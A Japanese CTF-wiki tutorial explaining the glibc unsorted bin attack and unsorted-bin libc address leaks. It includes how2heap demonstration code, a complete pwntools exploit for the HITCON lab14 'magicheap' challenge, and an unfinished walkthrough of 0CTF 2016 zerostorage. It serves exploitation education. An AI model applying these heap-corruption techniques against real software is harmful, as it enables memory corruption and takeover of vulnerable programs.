




# Unsorted Bin Attack

## 概要

Unsorted Bin Attack は、その名のとおり、Glibc のヒープ管理における Unsorted Bin の仕組みと密接に関係する攻撃です。

Unsorted Bin Attack が成立する前提は、Unsorted Bin のチャンクの bk ポインタを制御できることです。

Unsorted Bin Attack で達成できるのは、任意のアドレスの値を、比較的大きな数値に書き換えることです。

## Unsorted Bin のおさらい

Unsorted Bin への攻撃を説明する前に、Unsorted Bin の基本的な発生源と基本的な使われ方をおさらいしておきましょう。

### 基本的な発生源

1. 大きめのチャンクが 2 つに分割されたとき、残った部分が MINSIZE より大きければ unsorted bin に入れられます。
2. fast bin に属さないチャンクを解放し、そのチャンクが top chunk に隣接していない場合、そのチャンクはまず unsorted bin に入れられます。top chunk については、後述の説明を参照してください。
3. malloc_consolidate が行われると、統合後のチャンクが unsorted bin に入れられることがあります(top chunk に隣接していない場合)。

### 基本的な使われ方

1. Unsorted Bin は使用時、FIFO の順序で走査されます。**つまり、挿入するときは unsorted bin の先頭に挿入し、取り出すときはリストの末尾から取得します**。
2. プログラムが malloc を行うとき、fastbin と small bin に対応するサイズのチャンクが見つからなければ、Unsorted Bin からチャンクを探します。取り出したチャンクのサイズがちょうど要求を満たせばそのままユーザに返され、そうでなければそれらのチャンクはそれぞれ対応する bin に挿入されます。

## Unsorted Bin Leak

Unsorted Bin Attack を説明する前に、Unsorted Bin を使って Leak を行う方法を説明します。これは小さな trick ですが、多くの問題で使われます。

### Unsorted Bin の構造

`Unsorted Bin` は管理上、循環二重リンクリストになっています。`Unsorted Bin` に `bin` が 2 つある場合、リストの構造は次のようになります。



次の図は、上の構造を再現したものです。



このリストには必ず、`fd` ポインタが `main_arena` 構造体の内部を指すノードが 1 つあります(正確ではありませんが末尾のノードです。循環リストには実際には先頭も末尾もないので、感覚的に捉えてください)。

### Leak の原理

正しい `fd` ポインタを leak できれば、`main_arena` から固定のオフセットにあるアドレスが得られます。このオフセットはデバッグで求められます。`main_arena` は `struct malloc_state` 型のグローバル変数で、`ptmalloc` がメインアリーナを管理するための唯一のインスタンスです。グローバル変数であれば `.data` や `.bss` などのセグメントに配置されることがすぐに思い浮かびます。そのため、プロセスが使っている `libc` の `.so` ファイルがあれば、`main_arena` と `libc` のベースアドレスとのオフセットを求められ、`ASLR` を回避できます。

では `main_arena` と `libc` のベースアドレスとのオフセットはどう求めるのでしょうか。ここでは 2 つの考え方を紹介します。

#### __malloc_trim 関数から求める

`malloc.c` には次のようなコードがあります。

```cpp
int
__malloc_trim (size_t s)
{
  int result = 0;

  if (__malloc_initialized < 0)
    ptmalloc_init ();

  mstate ar_ptr = &main_arena;//<=here!
  do
    {
      __libc_lock_lock (ar_ptr->mutex);
      result |= mtrim (ar_ptr, s);
      __libc_lock_unlock (ar_ptr->mutex);

      ar_ptr = ar_ptr->next;
    }
  while (ar_ptr != &main_arena);

  return result;
}
```

`mstate ar_ptr = &main_arena;` の部分で `main_arena` にアクセスしていることに注目してください。したがって、IDA などのツールで解析すればオフセットがわかります。



たとえば `.so` ファイルを IDA に読み込み、`malloc_trim` 関数を見つければ、オフセットが得られます。

#### __malloc_hook から直接計算する

偶然にも、`main_arena` と `__malloc_hook` のアドレスの差は 0x10 で、しかもほとんどの libc では `__malloc_hook` のアドレスを直接調べられるため、作業量を大幅に減らせます。pwntools を例にすると次のとおりです。

```python
main_arena_offset = ELF("libc.so.6").symbols["__malloc_hook"] + 0x10
```

これで `main_arena` とベースアドレスとのオフセットが得られます。

### Leak を実現する方法

一般に leak を実現するには `UAF` が必要で、`chunk` を `Unsorted Bin` に入れてからその `fd` を出力させます。一般的なノート管理型の問題には `show` 機能があるので、リストの末尾にあるノードを `show` すれば `libc` のベースアドレスが得られます。

特に `CTF` での攻撃では、ヒープは初期化されたばかりであることが多く、`Unsorted Bin` は通常きれいな状態です。中に `bin` が 1 つしか存在しないとき、その `bin` の `fd` と `bk` はどちらも `main_arena` 内を指します。

また、リストの末尾にはアクセスできなくても先頭にはアクセスできる場合、32 ビット環境ではリストの先頭に対して `printf` などを行うと `fd` と `bk` をまとめて出力できることが多く、この場合も有効な leak が可能です。しかし 64 ビットでは、上位アドレスが `\x00` であることが多いため、多くの出力関数が途中で打ち切られ、有効な leak が難しくなることがあります。

## Unsorted Bin Attack の原理

[glibc](https://code.woboq.org/userspace/glibc/)/[malloc](https://code.woboq.org/userspace/glibc/malloc/)/[malloc.c](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html) の `_int_malloc` には次のようなコードがあります。unsorted bin を取り出すとき、`bck->fd` の位置にこの Unsorted Bin の位置が書き込まれます。

```C
          /* remove from unsorted list */
          if (__glibc_unlikely (bck->fd != victim))
            malloc_printerr ("malloc(): corrupted unsorted chunks 3");
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

言い換えれば、bk の値を制御できれば、`unsorted_chunks (av)` を任意のアドレスに書き込めます。


ここでは shellphish の how2heap リポジトリにある [unsorted_bin_attack.c](https://github.com/shellphish/how2heap/blob/master/unsorted_bin_attack.c) を例に説明します。簡単な修正を加えたものが次のとおりです。

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  fprintf(stderr, "This file demonstrates unsorted bin attack by write a large "
                  "unsigned long value into stack\n");
  fprintf(
      stderr,
      "In practice, unsorted bin attack is generally prepared for further "
      "attacks, such as rewriting the "
      "global variable global_max_fast in libc for further fastbin attack\n\n");

  unsigned long target_var = 0;
  fprintf(stderr,
          "Let's first look at the target we want to rewrite on stack:\n");
  fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);

  unsigned long *p = malloc(400);
  fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",
          p);
  fprintf(stderr, "And allocate another normal chunk in order to avoid "
                  "consolidating the top chunk with"
                  "the first one during the free()\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                  "unsorted bin with its bk pointer "
                  "point to %p\n",
          (void *)p[1]);

  /*------------VULNERABILITY-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                  "victim->bk pointer\n");
  fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                  "machine, it should be target address-8):%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                  "this time, target should has already been "
                  "rewrite:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

プログラムを実行した結果は次のとおりです。

```shell
➜  unsorted_bin_attack git:(master) ✗ gcc unsorted_bin_attack.c -o unsorted_bin_attack
➜  unsorted_bin_attack git:(master) ✗ ./unsorted_bin_attack
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7ffe0d232518: 0

Now, we allocate first normal chunk on the heap at: 0x1fce010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()

We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7f1c705ffb78
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7ffe0d232508

Let's malloc again to get the chunk we just free. During this time, target should has already been rewrite:
0x7ffe0d232518: 0x7f1c705ffb78
```

ここで、具体的な流れとその背後にある原理を図で説明します。



**初期状態**

unsorted bin の fd と bk は、どちらも unsorted bin 自身を指しています。

**free(p) の実行**

解放されるチャンクのサイズは fast bin の範囲に属さないため、まず unsorted bin に入れられます。

**p[1] の書き換え**

書き換えの後、もともと unsorted bin 内にあった p の bk ポインタは target addr-16 に偽造されたチャンクを指します。つまり Target Value は偽チャンクの fd の位置にあります。

**サイズ 400 のチャンクの確保**

このとき、確保しようとするチャンクは small bin の範囲に入りますが、対応する bin にはチャンクがまだありません。そこで unsorted bin を探し、unsorted bin が空でないことがわかるので、unsorted bin の最後のチャンクを取り出します。

```c
        while ((victim = unsorted_chunks(av)->bk) != unsorted_chunks(av)) {
            bck = victim->bk;
            if (__builtin_expect(chunksize_nomask(victim) <= 2 * SIZE_SZ, 0) ||
                __builtin_expect(chunksize_nomask(victim) > av->system_mem, 0))
                malloc_printerr(check_action, "malloc(): memory corruption",
                                chunk2mem(victim), av);
            size = chunksize(victim);

            /*
               If a small request, try to use last remainder if it is the
               only chunk in unsorted bin.  This helps promote locality for
               runs of consecutive small requests. This is the only
               exception to best-fit, and applies only when there is
               no exact fit for a small chunk.
             */
			/* 明らかに bck は書き換えられており、ここの条件には合致しない */
            if (in_smallbin_range(nb) && bck == unsorted_chunks(av) &&
                victim == av->last_remainder &&
                (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) {
				....
            }

            /* remove from unsorted list */
            unsorted_chunks(av)->bk = bck;
            bck->fd                 = unsorted_chunks(av);
```

- victim = unsorted_chunks(av)->bk=p
- bck = victim->bk=p->bk = target addr-16
- unsorted_chunks(av)->bk = bck=target addr-16
- bck->fd                 = *(target addr -16+16) = unsorted_chunks(av);

**unsorted bin の最後のチャンクを取り出す過程では、victim の fd は役割を果たしていないので、それを不正な値に書き換えても問題ありません。**ただし、これによって unsorted bin のリストが壊れる可能性があり、チャンクを挿入するときに問題が起きることがあるので注意が必要です。

つまり target の位置の値は unsorted bin のリストの先頭 0x7f1c705ffb78 に書き換えられます。これは先ほど出力された情報のとおりです。

```shell
We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7f1c705ffb78
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7ffe0d232508

Let's malloc again to get the chunk we just free. During this time, target should has already been rewrite:
0x7ffe0d232518: 0x7f1c705ffb78
```

このように、unsorted bin attack は確かに任意アドレスの値を書き換えられますが、書き換え後の値は制御できません。わかるのは、この値が比較的大きいということだけです。**また、注意すべきことは、**

これは一見あまり役に立たないように見えますが、実はそれなりに使い道があります。たとえば次のようなものです。

- ループの回数を書き換えて、プログラムが何度もループを実行できるようにする。
- ヒープ内の global_max_fast を書き換えて、より大きなチャンクを fast bin として扱わせ、fast bin attack を実行できるようにする。

## HITCON Training lab14 magic heap

[問題へのリンク](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unsorted_bin_attack/hitcontraining_lab14)

ここでは、正常に動かせるように元のプログラムの l33t 関数を修正します。

```c
void l33t() { system("cat ./flag"); }
```

### 基本情報

```shell
➜  hitcontraining_lab14 git:(master) file magicheap
magicheap: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9f84548d48f7baa37b9217796c2ced6e6281bb6f, not stripped
➜  hitcontraining_lab14 git:(master) checksec magicheap
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unsorted_bin_attack/hitcontraining_lab14/magicheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

このプログラムは動的リンクの 64 ビットプログラムで、主に NX と Canary が有効になっています。

### 基本機能

プログラムは自作のヒープマネージャのようなもので、主に次の機能があります。

1. ヒープの作成。ユーザが指定したサイズに応じてヒープを確保し、指定された長さの内容を読み込みますが、NULL は設定しません。
2. ヒープの編集。指定されたインデックスに対応するヒープが空でないかを判定し、空でなければ、ユーザが読み込ませたサイズに従ってヒープの内容を書き換えます。ここで実は任意の長さのヒープオーバーフローの脆弱性が生じています。
3. ヒープの削除。指定されたインデックスに対応するヒープが空でないかを判定し、空でなければ、対応するヒープを解放して NULL にします。

また、v3 を 4869 に制御し、同時に magic を 4869 より大きくすれば、flag が得られることがわかります。

### 攻撃

明らかに、unsorted bin attack をそのまま使えば十分です。

1. チャンクを 1 つ解放して unsorted bin に入れる。
2. ヒープオーバーフローの脆弱性を利用して、unsorted bin 内の対応するチャンクの bk ポインタを &magic-16 に書き換える。
3. 脆弱性を発動させる。

コードは次のとおりです。

```Python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./magicheap')


def create_heap(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit_heap(idx, size, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def del_heap(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


create_heap(0x20, "dada")  # 0
create_heap(0x80, "dada")  # 1
# in order not to merge into top chunk
create_heap(0x20, "dada")  # 2

del_heap(1)

magic = 0x6020c0
fd = 0
bk = magic - 0x10

edit_heap(0, 0x20 + 0x20, "a" * 0x20 + p64(0) + p64(0x91) + p64(fd) + p64(bk))
create_heap(0x80, "dada")  #trigger unsorted bin attack
r.recvuntil(":")
r.sendline("4869")
r.interactive()

```

## 2016 0CTF zerostorage - 未完成

**注: 今後さらに加筆予定。**

ここでは 2016 年 0CTF の [zerostorage](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unsorted_bin_attack/zerostorage) を例に説明します。

**この問題は出題当時、サーバのシステムバージョンとカーネルバージョンが公開されていたため、まったく同じ環境を自分で用意してデバッグできますが、ここでは手元のローカルマシンで直接デバッグします。ただし現在の Ubuntu 16.04 では、ランダム化がさらに進んだため、libc のロード位置とプログラムモジュールのロード位置との相対オフセットがもはや固定ではなくなり、BrieflyX の方針は再び使えず、angelboy の方針しか使えないようです。**

### セキュリティチェック

このプログラムではすべての保護が有効になっています。

```shell
pwndbg> checksec
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unsorted_bin_attack/zerostorage/zerostorage'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

### 基本機能の分析

プログラムは bss セグメント上の記憶領域 storage を管理しており、挿入、削除、マージ、削除、表示、列挙、終了の機能があります。この storage の構造体は次のとおりです。

```text
00000000 Storage         struc ; (sizeof=0x18, mappedto_7)
00000000                                         ; XREF: .bss:storage_list/r
00000000 use             dq ?
00000008 size            dq ?
00000010 xor_addr        dq ?
00000018 Storage         ends
```

#### insert-1

基本機能は次のとおりです。

1.  storage 配列を順に調べ、最初の未使用の要素を探します。ただしこの配列の最大は 32 です。
2.  storage の要素に格納する内容の長さを読み込みます。
    -   長さが 0 以下なら、そのまま終了します。
    -   そうでなく、要求バイト数が 128 未満なら、128 に設定します。
    -   そうでなく、要求バイト数が 4096 以下なら、その値に設定します。
    -   それ以外は 4096 に設定します。
3.  calloc で指定した長さを確保します。calloc はチャンクを 0 で初期化することに注意してください。
4.  calloc で確保したメモリアドレスを、bss セグメント上のある値(初期状態では乱数)と XOR し、新しいメモリアドレスを得ます。
5.  読み込んだ storage のサイズに従って内容を読み込みます。
6.  対応する storage のサイズと内容を格納するアドレスを対応する storage の要素に保存し、その要素を使用中の状態にします。**ただし、ここで記録される storage のサイズは、自分で入力したサイズであることに注意してください!!!**
7.  storage num の数をインクリメントします。

#### update-2

1.  何も格納されていなければ、そのまま return します。
2.  更新する storage 要素の id を読み込み、id が 31 より大きいか、現在使用中の状態でなければ、不正なので、そのまま return します。
3.  **更新後**の storage 要素に格納する内容の長さを読み込みます。
    -   長さが 0 以下なら、そのまま終了します。
    -   そうでなく、要求バイト数が 128 未満なら、128 に設定します。
    -   そうでなく、要求バイト数が 4096 以下なら、その値に設定します。
    -   それ以外は 4096 に設定します。
4.  bss セグメント上の対応する乱数を使って、もとの storage が格納している内容のアドレスを取得します。
5.  更新後に必要な長さが更新前の長さと等しくなければ、realloc でメモリを再確保します。
6.  再度データを読み込み、同時に storage の要素を更新します。

#### merge-3

1. 使用中の要素が 1 個以下なら、マージできないので、そのまま終了します。
2. storage が満杯かどうかを判定し、満杯でなければ空いている場所を探します。
3. merge_from の id と merge_to の id をそれぞれ読み込み、対応するサイズと使用状態を検査します。
4. 最初にユーザが入力したサイズから、2 つをマージしたときに必要な領域を計算します。**128 以下なら新しい領域は確保されず**、そうでなければ対応するサイズの新しい領域を確保します。
5. merge_to と merge_from の内容を順に対応する位置にコピーします。
6. **最後に、merge_from の内容を格納していたメモリアドレスは解放されますが、NULL にはされません。同時に、merge_to の内容を格納しているメモリアドレスは解放されず、対応する storage の XOR 後のアドレスだけが NULL にされます。**

**ただし、マージの際に 2 つの storage の ID が同じかどうかは検査されていないことに注意してください。**

#### delete-4

1. 要素が 1 つも格納されていなければ、そのまま return します。
2. 変更対象として指定された storage の要素の id を読み込み、id が 32 より大きければ、そのまま return します。
3. storage の対応する要素が使用中の状態でなければ、同様に return します。
4. その後、要素の対応するフィールドをそれぞれ NULL に設定し、対応するメモリを解放します。

#### view-5

1. 要素が 1 つも格納されていなければ、そのまま return します。
2. 変更対象として指定された storage の要素の id を読み込み、id が 32 より大きければ、そのまま return します。
3. storage の対応する要素が使用中の状態でなければ、同様に return します。
4. 対応する storage の内容を出力します。

#### list-6

1. 要素が 1 つも格納されていなければ、そのまま return します。
2. 変更対象として指定された storage の要素の id を読み込み、id が 32 より大きければ、そのまま return します。
3. 使用中のすべての storage を走査し、その添字と対応する storage のサイズを出力します。

### 脆弱性の特定

ここまでの簡単な分析から、脆弱性は主に insert の操作と merge の操作に集中していると見てよいでしょう。特に、サイズの小さい 2 つの storage をマージするときに問題が起きます。

具体的に分析してみましょう。insert の際にサイズの小さい(たとえば 8 の)storage A を挿入したとします。そして merge の際に、マージする 2 つの storage としてどちらも A を選ぶと、プログラムは A の内容をそのまま A のもとの内容の後ろに追加し、続いて A に対応するデータ格納部分のメモリを free します。しかしこれは実質的に意味がありません。A の内容を格納するアドレスは別の storage に代入されているためです。マージ後の storage B の部分の内容に再びアクセスすると、B のデータ格納部分のアドレスは実は A に対応するデータ格納部分のアドレスなので、出力されるのは A のデータ部分の内容です。ところが、先ほど A に対応するメモリを解放しており、A は fast bin の範囲に入らないため unsorted bin に入れられるだけです(しかもこのとき 1 つだけです)。したがって、このとき A の fd と bk にはどちらも unsorted bin のあるベースアドレスが格納されています。

merge の前に storage C を削除していた場合、A をマージした後、A は unsorted bin の二重リンクリストの先頭に挿入されるので、その fd は C に対応するアドレス、bk は unsorted bin のあるベースアドレスになります。これで 2 つのアドレスを直接リークできます。

また、マージ後の B の内容は引き続き書き換えられるので、これは実質的に Use After Free です。

### 攻撃の流れ

- Unsorted Bin Attack

  unsorted bin attack を利用して global_max_fast グローバル変数を書き換えます。global_max_fast 変数は最大の fast chunk のサイズを制御しているので、これを unsorted bin のアドレス(一般に非常に大きな正の数)に書き換えれば、以降のチャンクはすべて fast chunk として扱われ、Fast bin attack を行えるようになります。

- Fast Bin Attack

  

## 問題

## 参考文献

- http://brieflyx.me/2016/ctf-writeups/0ctf-2016-zerostorage/
- https://github.com/HQ1995/Heap_Senior_Driver/tree/master/0ctf2016/zerostorage
- https://github.com/scwuaptx/CTF/blob/master/2016-writeup/0ctf/zerostorage.py
